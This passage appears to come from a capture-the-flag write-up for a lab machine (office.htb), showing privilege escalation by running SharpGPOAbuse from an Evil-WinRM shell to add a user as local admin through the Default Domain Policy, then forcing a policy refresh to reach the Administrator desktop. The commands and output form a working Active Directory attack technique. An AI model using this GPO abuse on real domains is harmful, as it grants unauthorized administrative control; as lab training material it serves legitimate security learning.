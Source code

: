 The first policy fails, so lets try to use the second one.

```console
*Evil-WinRM* PS C:\Programdata> .\SharpGPOAbuse.exe --AddLocalADmin --UserAccount HHogan --GPOName "Default Domain Policy"
[+] Domain = office.htb
[+] Domain Controller = DC.office.htb
[+] Distinguished Name = CN=Policies,CN=System,DC=office,DC=htb
[+] SID Value of HHogan = S-1-5-21-1199398058-4196589450-691661856-1108
[+] GUID of "Default Domain Policy" is: {31B2F340-016D-11D2-945F-00C04FB984F9}
[+] File exists: \\office.htb\SysVol\office.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
[+] The GPO does not specify any group memberships.
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.
[+] Done!
```
This doesn’t take effect until the GPO refreshes, but we are allowed to run `gpupdate /force`. Afterwards we need to exit our current WinRM session and authenticate again for the changes to take effect. We can then see ourselves in the `BUILTIN\Administrators` group and can access the Administrator desktop.

```console
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir
Directory: C:\Users\Administrator\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         7/16/2024  12:58 PM             34 root.txt
```
